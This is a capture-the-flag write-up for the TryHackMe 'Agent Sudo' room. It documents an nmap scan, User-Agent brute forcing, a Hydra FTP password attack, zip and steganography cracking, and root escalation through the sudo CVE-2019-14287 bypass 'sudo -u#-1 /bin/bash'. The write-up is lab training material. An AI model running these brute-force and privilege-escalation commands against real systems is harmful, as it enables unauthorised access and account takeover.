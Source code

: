 ```yaml
---
parent: "[[CTFs - THM]]"
---
```

```bash
# PLATFORM          . THM
# CTF NAME          . Agent Sudo
# DESCRIPTION       . You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth.
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/agentsudoctf
```

```bash
sudo nmap -sSVC -T5 10.10.132.55 -p- -oN agentsudo
```

```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef1f5d04d47795066072ecf058f2cc07 (RSA)
|   256 5e02d19ac4e7430662c19e25848ae7ea (ECDSA)
|_  256 2d005cb9fda8c8d880e3924f8b4f18e2 (ED25519)

80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Annoucement
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

- If we navigate to the webserver on port `80`, all we get is 

```
Dear agents,  
  
Use your own **codename** as user-agent to access the site.  
  
From,  
Agent R
```

- This makes me think that we neeed to capture the request in burp suite and change the user-agent to a valid value.

- I've captured the request and sent it to Intruder.

- I've created a payload containing all uppercase letters A-Z and started a `sniper` attack.

```
GET / HTTP/1.1
Host: 10.10.132.55
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: §<A-Z>§
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

- All requests besides agent `R` and `C` had the same `status code` and `length` so I've considered those obsolete.

- If we modify the User-Agent to `R`, we get a warning. However, this confirms us that we're on the right track and using the right format. 

```
What are you doing! Are you one of the 25 employees? If not, I going to report this incident
```

- If we switch the user-agent to `C`, we see that burp captures another request

```
GET /agent_C_attention.php 
```

- The page is loaded and here's the content

```
Attention chris,

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!

From,
Agent R
```

- We get our username, `chris`, along with some indication that the password might be easy to bruteforce.

- Let's try bruteforcing `ftp` first.

```bash
hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.132.55 ftp
```

```
[21][ftp] host: 10.10.132.55   login: chris   password: c{redacted}l
```

- After logging in to `ftp`, we're able to find some files.

```bash
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
```

```To_agentJ.txt
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

- This reveals that here's a steganography challenge and that the password of `Agent J` is hidden inside one of the pictures. 

- Running `steghide --extract -sf` against `cute-alien.jpg` asks for a passphrase, so I've moved to other checks for now.

- I've installed `binwalk` and used `binwalk -e` against both images. 

```bash

binwalk -e cutie.png 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22
```

- The `.zip` archive seems to be password protected, so we can make use of `john` to try to crack this.

- First, use `zip2john` to extract the hash from the `.zip` file

```bash
/opt/john/run/zip2john 8702.zip > zip_hash.txt
```

- Then, use `john` to crack the password. I've used the classic `rockyou.txt` file.

```bash
/opt/john/run/john -w=/usr/share/wordlists/rockyou.txt zip_hash.txt
```

>**NOTE**: A **COMPILED** version of `john` is needed ; I had the `jumbo` version installed from the official website / git clone of the `run` directory and it was missing some extensions, including `zip2john`.

- I tried `unziping` the arhive using `unzip -P [password] [filename]`

```
   skipping: To_agentR.txt           need PK compat. v5.1 (can do v4.6)
```

- So I managed to get the file using `7z` instead

```
7z x 8702.zip -p[passowrd]
```

```To_agentR.txt
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```

- I've tried using `QXJlYTUx` as the passphrase asked when running `steghide --extract -sf cute-alien.jpg`, but it didn't work.

- It looks a bit like `base64` and using `echo "QXJlYTUx" | base64 -d` against the string reveals `{redacted}` in ASCII - that's the secret.

```
steghide --extract -sf cute-alien.jpg 
Enter passphrase: 
wrote extracted data to "message.txt".
```

```message.txt
Hi james,

Glad you find this message. Your login password is {redacted}!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

- So we've got ourselves a pair of credentials: `james:{redacted}!`

- `sudo -l` has an interesting output, but let's focus on getting the 1st flag first.

```bash
User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

- First flag is located at `/home/james/user_flag.txt` alongside a `jpg` called `Alien_autospy.jpg`. 

- I've transferred the file to my box using `scp`

```bash
scp james@10.10.132.55:/home/james/Alien_autospy.jpg alien_autopsy.jpg
```

- well. a dead alien. now what? I had no clue what to do with this.

- `steghide --extract -sf` asks for a passphase, but I got no clue and I don't think bruteforcing this is the way to go.

- I've checked the hint and it says that we need to google about it.

- Here we go: The incident is called "Roswell Alien Autopsy". 

- Back to our victim box - we need to escalate privileges.

- The CTF is asking for the CVE number we'll use to exploit, so it is basically a hint that we need to find a vulnerability that can be leveraged in this environment.

```bash
james@agent-sudo:~$ cat /etc/lsb-release 

DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=18.04
DISTRIB_CODENAME=bionic
DISTRIB_DESCRIPTION="Ubuntu 18.04.3 LTS"
```

```bash
james@agent-sudo:~$ uname -a
Linux agent-sudo 4.15.0-55-generic #60-Ubuntu SMP Tue Jul 2 18:22:20 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
```

- I think I spent 2 hours looking for 4.1x Kernel exploits. 

- However, I've checked the `sudo version` using `sudo -V` and I was able to find an exploit that can be leveraged on this box.

```bash
sudo -V

Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
```

- The exploit can be found here:[CVE-2019-14287](https://nvd.nist.gov/vuln/detail/CVE-2019-14287) and it specifies that in order to bypass `(ALL, !root) /bin/bash`, all we need to do is to run `sudo -u#-1 /bin/bash` instead.

```bash
james@agent-sudo:~$ sudo -u#-1 /bin/bash
root@agent-sudo:~# whoami
root
```

- This exploit works by using `sudo -u` (-u = specify user UID) with a negative value. Sudo doesn't check to see if the UID exists and it returns 0 when given an invalid value, 0 being the root UID and granting us root permissions instead.

- Last flag is in `/root/root.txt`

